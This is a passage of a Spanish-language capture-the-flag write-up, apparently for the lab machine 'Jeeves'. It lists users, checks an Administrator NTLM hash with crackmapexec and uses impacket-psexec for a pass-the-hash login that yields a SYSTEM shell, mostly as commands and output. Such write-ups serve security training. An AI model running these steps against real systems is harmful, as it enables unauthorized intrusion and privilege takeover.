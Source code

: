 Como estamos en el sistema vamos a listar usuarios y ver a quien puede pertenecer

```
C:\Users\kohsuke\Documents>net user
net user

User accounts for \\JEEVES

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
kohsuke                  
The command completed successfully.
```

Validamos las credenciales por `smb` y efectivamente es el hash del usuario `Administrator`

```
# crackmapexec smb 10.129.194.239 -u 'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00' 
SMB         10.129.194.239  445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.129.194.239  445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

Con `psexec` nos podemos conectar a la máquina víctima usando la técnica de `Pass the hash`, la primera parte del hash llamado `LT` la podemos omitir y se puede usar solamente la segunda parte llamada `NT` (habría que dejar los `:`, el input sería > `:e0fb1fb85756c24235ff238cbe81fe00`)

```
# impacket-psexec WORKGROUP/Administrator@10.129.194.239 -hashes 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.194.239.....
[*] Found writable share ADMIN$
[*] Uploading file XQQrIHWQ.exe
[*] Opening SVCManager on 10.129.194.239.....
[*] Creating service AtCI on 10.129.194.239.....
[*] Starting service AtCI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Cuando vamos al directorio de `Administrator` a la parte del `escritorio` e intentamos ver la `flag` ocurre lo siguiente

```
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,612,101,120 bytes free

C:\Users\Administrator\Desktop> type hm.txt
The flag is elsewhere.  Look deeper.
```
